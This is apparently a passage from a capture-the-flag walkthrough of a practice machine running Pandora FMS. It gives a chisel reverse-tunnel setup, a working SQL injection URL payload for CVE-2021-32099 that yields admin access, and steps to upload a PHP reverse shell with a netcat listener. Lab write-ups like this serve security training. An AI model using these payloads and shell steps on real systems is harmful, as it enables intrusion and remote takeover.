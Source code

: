 * Simply run a ./chisel to verify success.
* Go back to your attacking machine and execute the following to spin up a chisel server.
* "chisel server -p 9002 --reverse -v"
* Now that our chisel server is up and running, let's start the chisel client on the target computer using our SSH connection:
* "./chisel client 10.10.14.11:9002 R:9005:127.0.0.1:80"
* You should now see "Connecting... Connected."
* Let's verify that we now have access to the internal webserver:
* Open up your browser on your attacker machine and navigate to: 127.0.0.1:9005
* You now have access to pandora\_console/
* I tried to login using Daniel's credentials and got the error:
  * "Error -- User only can use the API."
* Do we look for an API now so we can use our Daniel credentials to access it??

WAPALYZER REPORT:

* PHP Programming Language
* jQuery 3.3.1
* jQuery UI 1.12.1
* Underscore.js 1.8.3
* File upload vulnerability via PHP (Arbitrary File Upload)??
  * [https://www.exploit-db.com/exploits/45790](https://www.exploit-db.com/exploits/45790)
* Client-Side Object-Pollution? -[https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md)
* I spent a lot of time on this box at this point. -- I decided to go back to the basics.
  * Why don't we just look up Pandora FMS vulnerabilities?
  * I did and found the following site:
    * [https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained\\\\\\\\](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained////)
    * We then see the following vulnerabilities are associated with this version of pandora-fms.
      * SQL Injection (pre authentication) (CVE-2021-32099)
      * Phar deserialization (pre authentication) (CVE-2021-32098)
      * Remote File Inclusion (lowest privileged user) (CVE-2021-32100)
      * Cross-Site Request Forgery (CSRF)
* I found a proof of concept (PoC) for CVE-2021-32099:
  * [https://github.com/zjicmDarkWing/CVE-2021-32099](https://github.com/zjicmDarkWing/CVE-2021-32099)
  * PoC:
    * http: [//127.0.0.1:9005/pandora\_console/include/chart\_generator.php?session\_id=' union SELECT 1,2,'id\_usuario|s:5:"admin";' as data -- SgGO](notion://127.0.0.1/pandora\_console/include/chart\_generator.php?session\_id=%27%20union%20SELECT%201,2,%27id\_usuario%7Cs:5:%22admin%22;%27%20as%20data%20--%20SgGO)
    * Put this in the URL bar and press enter.
    * You will see a blank screen. Press the back arrow now.
    * BOOM! You have access to the pandora-fms admin portal.
* We need to find a way to upload a php reverse-shell now.
  * After some digging around, I found a youtube video on the sonarsource site.
  * It depicts an attacker navigating to the "Admin Tools" option on the sidebar of the admin page.
  * Admin Tools >> Extension Manager >> Extension Uploader.
    * We now see a file upload page.
    * Shall we try a PHP reverse shell?
      * Yes, use the pentest monkey php-reverse-shell on Github and change the IP address to your tun0 address on your attacking machine as well as the port in the script.
      * [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
      * You must save it as a zip file. In this case, "zip ezshell.php.zip ezshell.php"
      * Make the file and set up a netcat listener:
        * "sudo nc -lnvp 6969"
        * Go to the extension uploader and upload the zip file.
        * Now navigate to http: [//127.0.0.1:9005/pandora\_console/extensions/ezshell.php](notion://127.0.0.1/pandora\_console/extensions/ezshell.php)